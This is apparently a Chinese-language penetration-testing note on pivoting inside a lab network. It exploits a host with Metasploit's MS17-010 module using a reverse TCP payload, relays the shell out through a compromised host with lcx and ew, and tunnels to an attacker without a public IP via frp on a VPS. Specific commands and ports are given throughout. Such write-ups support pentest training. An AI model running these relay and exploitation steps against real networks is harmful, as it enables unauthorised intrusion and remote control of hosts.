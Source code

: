# 转发的操作   
## 有公网VPS安装MSF 

### 背景   
内网a 192.168.3.77/192.168.1.9 存在shell 上传lcx   
内网b 192.168.3.144 ms17010  
攻击机 192.168.1.3   
### 实际操作
我的操作如下  
1.在攻击机的msf当中添加网段之后 run autoroute -s 192.168.3.0/24
使用了ms17_010_psexec，其payload为reverse_tcp 其lport=7840 lhost=192.168.3.77  

2.上传lcx到a 上并且执行 为了将shell转发出来  
#### lcx     
lcx.exe -slave 192.168.1.3 7840 127.0.0.1 7841 
#### ew  
ew.exe -s lcx_tran -l 7840 -f 192.168.1.9 -g 7841  
3.攻击机中进行执行命令  
set multi/handler
host是 192.168.1.3 port=7841  
### 总结  
ew已经完全代替lcx了吧，如果有人再说lcx 上古黑客了！
攻击机还是监听本机，内网传输的shell以中转机的porta作为目标，中转机将porta转发到目标当中通过ew当中的lcx。

## 无公网的VPS安装MSF  
### 背景 
如果我的msf如果不在公网上在内网当中怎么办呢？  
这个时候使用ew就不能完全解决问题了，这种情况十分常见
我们需要使用到内网穿透，可以考虑使用frp   

当我们进行渗透测试的时候 vps因为带宽等等原因并不好部署msf，将得到的主机扫描到的内网主机也不能通网，而且必须使用reverse_shell的情况下，下面介绍详细的配置 。
### 实际的操作  
1.控制的中转机  ew.exe -s lcx_tran -l 7840 -f vps_ip  -g 7840  
2.攻击机 监听本地7841 frpc.ini 当中进行配置  
![20211026210944](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026210944.png)

3.vps正常运行frps
### 总结  
ew解决的是将内网端口转发到外网 frp解决的是攻击机无公网ip进行端口配置